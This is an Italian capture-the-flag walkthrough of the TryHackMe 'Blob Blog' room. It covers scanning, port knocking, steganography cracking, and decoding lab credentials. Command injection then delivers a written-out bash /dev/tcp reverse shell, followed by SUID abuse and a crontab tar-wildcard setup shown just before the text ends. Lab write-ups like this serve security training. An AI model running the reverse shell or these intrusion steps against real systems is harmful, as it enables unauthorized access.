







The Blob Blog
https://tryhackme.com/room/theblobblog
IP: blob.local
Cominciamo come il solito a vedere i servizi presenti nella rete attraverso nmap
| kali@kali:~$ sudo nmap -sS -sV -sC -O -p- blob.local
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-24 19:37 +0200
Nmap scan report for blob.local (10.129.131.136)
Host is up (0.029s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 e7:28:a6:33:66:4e:99:9e:8e:ad:2f:1b:49:ec:3e:e8 (DSA)
| 2048 86:fc:ed:ce:46:63:4d:fd:ca:74:b6:50:46:ac:33:0f (RSA)
| 256 e0:cc:05:0a:1b:8f:5e:a8:83:7d:c3:d2:b3:cf:91:ca (ECDSA)
|_ 256 80:e3:45:b2:55:e2:11:31:ef:b1:fe:39:a8:90:65:c5 (ED25519)
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 186.30 seconds
|
Ha rilevato due servizi aperti
| Servizio |
Porta |
Versione |
| ssh |
22 |
OpenSSH 6.6.1p1 |
| http |
80 |
Apache httpd 2.4.7 |
Apriamo intanto il sito

Che mostra la schermata di default di Apache2 post-installazione. Enumeriamo intanto altre pagine disponibili
| kali@kali:~$ gobuster dir -u http://blob.local/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x ".php,.txt,.bak"
|
Sfortunatamente non trova nessuna pagina interessante. Ma questo significa che in questa pagina c’è la soluzione. Infatti guardando i commenti notiamo

Abbiamo scoperto l’accesso per servizio ssh con l’utente bob e password codificata: HcfP8J54AK4
Ma anche questo testo BASE64

Che decodificato sembra uno script Brainfuck

Eseguendo questo Brainfuck script otteniamo
When I was a kid, my friends and I would always knock on 3 of our neighbors doors. Always houses 1, then 3, then 5!
Quello che mi viene da pensare è che abbia usato un algoritmo come ROT-13 per cifrare la password e di provare la traslazione di caratteri 1,3 o 5
Strada errata! si trattava invece di fare un knock alle porte 1, 3 e 5 questo knock apriva altre nuove porte!
| kali@kali:~/Desktop/CTF/TheBlobBlog$ knock -u blob.local 1 3 5
|
| kali@kali:~/Desktop/CTF/TheBlobBlog$ nmap -Pn -p- --open blob.local
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-24 20:20 +0200
Nmap scan report for blob.local (10.129.131.136)
Host is up (0.030s latency).
Not shown: 65529 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
445/tcp open microsoft-ds
8080/tcp open http-proxy
|
Aprendo http://blob.local:8080/login ci troviamo di fronte a un login

Provo ad eseguire SQLmap
| kali@kali:~/Desktop/CTF/TheBlobBlog$ sqlmap -r login-request.txt --batch
[......]
[22:15:32] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
|
Nulla, guardando però il javascript presente nella pagina:
Con le credenziali trovate proviamo ad identificarci al servio FTP usando come password HcfP8J54AK4 decifrandola, trattandosi di Base58, cUpC4k3s dove riusciamo a scaricare due file cool.jpeg e examples.desktop
Analizzando l’immagine è possibile notare che nasconde dei dati attraverso la tecnica della steganografia
| kali@kali:~/Desktop/CTF/TheBlobBlog$ stegseek --seed cool.jpeg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
[i] Found (possible) seed: "60cc3999"
Plain size: 71.0 Byte(s) (compressed)
Encryption Algorithm: rijndael-128
Encryption Mode: cbc
|
Proviamo ad estrarla, trovando una password che sia in grado di estrarre questo possibile file
| kali@kali:~/Desktop/CTF/TheBlobBlog$ stegseek cool.jpeg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
[i] Found passphrase: "p@55w0rd"
[i] Original filename: "out.txt".
[i] Extracting to "cool.jpeg.out".
|
Guardando dentro il contenuto
| kali@kali:~/Desktop/CTF/TheBlobBlog$ cat cool.jpeg.out
zcv:p1fd3v3amT@55n0pr
/bobs_safe_for_stuff
|
Guardando quindi la porta 445

youmayenter è la chiave per decifirare zcv:p1fd3v3amT@55n0pr attraverso cifratura di Vigenere. Ottenendo bob:d1ff3r3ntP@55w0rd
Loggandoci vediamo:

La pagina soffre di una vulnerabilita di tipo Command Injection se noi come input inseriamo whoami otteniamo, guardando l’ultima review, www-data
Carichiamo quindi la reverse shell: bash -i >& /dev/tcp/192.168.131.79/4445 0>&1 ottenendo la shell:
| www-data@bobloblaw-VirtualBox:~/html2$ whoami
www-data
|
Guardando i file con flag SUIG,GUID attivi vediamo
| 207 20 -rwsrwxr-x 1 bobloblaw bobloblaw 16768 Jul 25 2020 /usr/bin/blogFeedback
|
| www-data@bobloblaw-VirtualBox:/home$ /usr/bin/blogFeedback 6 5 4 3 2 1
$ whoami
bobloblaw
|
E prendiamo la flag THM{C0NGR4t$_g3++ing_this_fur}
Ora dobbiamo fare privileage escalation verso root.
| bobloblaw@bobloblaw-VirtualBox:/home/bobloblaw/Desktop$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user command
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root cd /home/bobloblaw/Desktop/.uh_oh && tar -zcf /tmp/backup.tar.gz *
|